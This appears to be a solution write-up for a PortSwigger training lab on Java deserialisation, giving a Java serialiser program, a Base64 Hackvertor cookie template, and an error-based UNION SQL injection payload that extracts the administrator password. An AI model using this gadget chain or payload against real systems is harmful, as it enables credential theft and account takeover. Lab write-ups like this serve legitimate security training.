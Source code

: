 # Developing a custom gadget chain for Java deserialisation

## Description

[This lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-developing-a-custom-gadget-chain-for-java-deserialization) uses a serialization-based session mechanism. By constructing a suitable gadget chain, it is possible to exploit this lab's insecure deserialization to obtain the administrator's password. 

## Reproduction and proof of concept

###  Identify the vulnerability

1. Log in to your own account and notice the session cookie contains a serialized Java object.
2. From the site map, notice that the website references the file `/backup/AccessTokenUser.java`. You can successfully request this file in Burp Repeater.
3. Navigate upward to the `/backup` directory and notice that it also contains a `ProductTemplate.java` file.
4. Notice that the `ProductTemplate.readObject()` method passes the template's id attribute into a SQL statement.
5. Based on the leaked source code, write a small Java program that instantiates a `ProductTemplate` with an arbitrary ID, serializes it, and then Base64-encodes it.

```html
import data.productcatalog.ProductTemplate;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.Base64;

class Main {
    public static void main(String[] args) throws Exception {
        ProductTemplate originalObject = new ProductTemplate("your-payload-here");

        String serializedObject = serialize(originalObject);

        System.out.println("Serialized object: " + serializedObject);

        ProductTemplate deserializedObject = deserialize(serializedObject);

        System.out.println("Deserialized object ID: " + deserializedObject.getId());
    }

    private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }

    private static <T> T deserialize(String base64SerializedObj) throws Exception {
        try (ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj)))) {
            @SuppressWarnings("unchecked")
            T obj = (T) in.readObject();
            return obj;
        }
    }
}
```

6. Use the Java program to create a `ProductTemplate` with the `id` set to a single apostrophe. Copy the Base64 string and submit it in a request as your session cookie. The error message confirms that the website is vulnerable to Postgres-based SQL injection via this deserialised object. 

###  Extract the password

Having identified this vulnerability, you now need to find a way to exploit it to extract the administrator's password. At this point, you have the following options for testing different payloads:

* Make changes in your Java file like in the previous step, recompile it, and run it again before pasting the new value into your session cookie. This can be time-consuming as you'll have to repeat all of these steps for each payload you want to test.
* Alternatively, you can use the [Hackvertor extension](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100). You can then paste the raw serialized object into Burp Repeater and add tags that will update the offsets and Base64-encode the object automatically. This makes it much quicker to test a large number of payloads, and is even compatible with Burp Intruder.

This template is Base64-encoded here to avoid copy/paste issues:

```text
PEBiYXNlNjRfND6s7QAFc3IAI2RhdGEucHJvZHVjdGNhdGFsb2cuUHJvZHVjdFRlbXBsYXRlAAAAAAAAAAECAAFMAAJpZHQAEkxqYXZhL2xhbmcvU3RyaW5nO3hwdAA8QGZyb21fY2hhcmNvZGVfMz48QGdldF9sZW4gLz48QC9mcm9tX2NoYXJjb2RlXzM+WU9VUi1QQVlMT0FELUhFUkU8QHNldF9sZW4+PEBsZW5ndGhfMD5ZT1VSLVBBWUxPQUQtSEVSRTxAL2xlbmd0aF8wPjxAL3NldF9sZW4+PEAvYmFzZTY0XzQ+
```

To use this template:

1. Copy and paste it into your session cookie in Burp Repeater.
2. Base64-decode it to reveal something that looks like this:

```text
<@base64_4>¬ísr#data.productcatalog.ProductTemplateLidtLjava/lang/String;xpt<@from_charcode_3><@get_len /><@/from_charcode_3>YOUR-PAYLOAD-HERE<@set_len><@length_0>YOUR-PAYLOAD-HERE<@/length_0><@/set_len><@/base64_4>
```
    
3. Replace both occurrences of YOUR-PAYLOAD-HERE with the payload that you want to test. Leave everything else as it is.
4. Send the request. If you want to check the output that Hackvertor generated, you can look at the request on the "Logger" tab.

There are several ways to extract the password, but for this solution, a simple, error-based UNION attack will suffice.

5. Enumerate the number of columns in the table (8).
6. Determine the data type of the columns and identify that columns 4, 5, and 6 do not expect values of the type string. Importantly, notice that the error message reflects the string input that you entered.
7. List the contents of the database and identify that there is a table called users with a column called password.
8. Use a suitable SQL injection payload to extract the password from the users table. For example, the following payload will trigger an exception that displays the password in the error message:

```text
' UNION SELECT NULL, NULL, NULL, CAST(password AS numeric), NULL, NULL, NULL, NULL FROM users--
```
    
9. To solve the lab, log in as administrator using the extracted password, open the admin panel, and delete Carlos's account.

## Exploitability

An attacker will need to log in to `wiener:peter`; gain access to the source code and use it to construct a gadget chain to obtain the administrator's password; and then, log in as the administrator and delete Carlos's account. 
